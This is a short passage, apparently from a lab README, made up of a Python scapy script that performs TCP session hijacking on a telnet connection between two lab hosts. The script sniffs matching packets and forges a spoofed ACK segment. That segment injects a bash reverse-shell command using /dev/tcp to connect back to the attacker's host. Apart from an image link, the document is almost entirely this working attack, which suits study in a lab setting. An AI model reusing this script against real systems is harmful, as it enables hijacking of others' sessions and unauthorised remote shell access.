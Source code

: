 ```python
#!/usr/bin/python3
from scapy.all import *

SRC = "172.17.0.3"
DST = "172.17.0.2"
PORT = 23

def spoof(pkt):
    old_ip = pkt[IP]
	old_tcp = pkt[TCP]
    
	ip = IP( src = old_ip.src, 
             dst = old_ip.dst
           )

	tcp = TCP( sport = old_tcp.sport, 
               dport = old_tcp.dport, 
               seq = old_tcp.seq,
               ack = old_tcp.ack, 
               flags = "A"
             )
	data = "\r\n /bin/bash -i > /dev/tcp/172.17.0.1/5252 0<&1 2>&1\r\n"
	pkt = ip/tcp/data
	send(pkt, verbose=0)
	ls(pkt)
	quit()
    
f = 'tcp and src host {} and dst host {} and dst port {}'.format(SRC, DST, PORT)
sniff(filter=f, prn=spoof)
```

![image-20220411001747684](readme.assets/image-20220411001747684.png)

